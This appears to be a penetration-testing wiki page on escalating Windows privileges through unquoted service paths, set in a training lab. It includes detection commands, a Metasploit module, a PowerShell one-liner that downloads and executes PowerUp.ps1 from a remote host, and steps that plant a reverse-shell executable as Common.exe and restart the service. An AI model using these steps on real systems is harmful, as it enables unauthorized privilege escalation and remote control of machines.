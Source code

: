 # Unquoted Service Path

Executables in Windows can be run without using their extension (e.g. “whoami.exe” can be run by just typing “whoami”). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: C:\Program Files\Some Dir\SomeProgram.exe

To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn. **If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.**

## detecting unquoted service paths

### manual method

```
sc query vaultsvc → query the credential manager
```

searching for all unquoted service binary paths:

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

This command finds the service name, executable path, display name of the service and auto starts in all the directories except C:\Windows (since by default there is no such service which has spaces and is unquoted in this folder). Also, we need to exclude those services that are enclosed within the double quotes.

### automated with metasploit

We use Metasploit’s exploit/windows/local/trusted\_service\_path.

```
use exploit/windows/local/trusted_service_path
set session 1
exploit
```

### automated using powerup

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.81/PowerUp.ps1');Get-ServiceUnquoted"
```

### automated with winPEAS

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (100).png>)

Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

Confirm this using sc:

```
sc qc unquotedsvc
```

![](<../../../../.gitbook/assets/image (101).png>)

we can detect it using

Use accesschk.exe to check for write and startpermissions:

```
accesschk.exe -ucqv user unquotedsvc
```

![](<../../../../.gitbook/assets/image (77).png>)

we have start permission, now check for write permission on each directory path to the binary file:

```
accesschk.exe /accepteula -uwdq C:\
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

or

```
icacls c:\
icacls "c:\\Program Files"
icacls "c:\\Program Files\\Unquoted Path Service"
```

![](<../../../../.gitbook/assets/image (75).png>)

it looks like all the members of the builtin\users group have RW (read/write) access to this directory. we are a member of that group so we can create a file named Common.exe in C:\Program Files\Unquoted Path Service and have it execute a reverse shell. (because C:\Program Files\Unquoted Path Service is the first path that our user group has rw access and the next thing that windows looks for while executing the binary is the name "Common" in the "Common Filess" string so if we create a reverse shell executable named Common.exe it will be executed befor windows reaches the "Common Files" directory

Copy the reverse shell executable and rename it appropriately:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start unquotedsvc
```

![](<../../../../.gitbook/assets/image (97).png>)
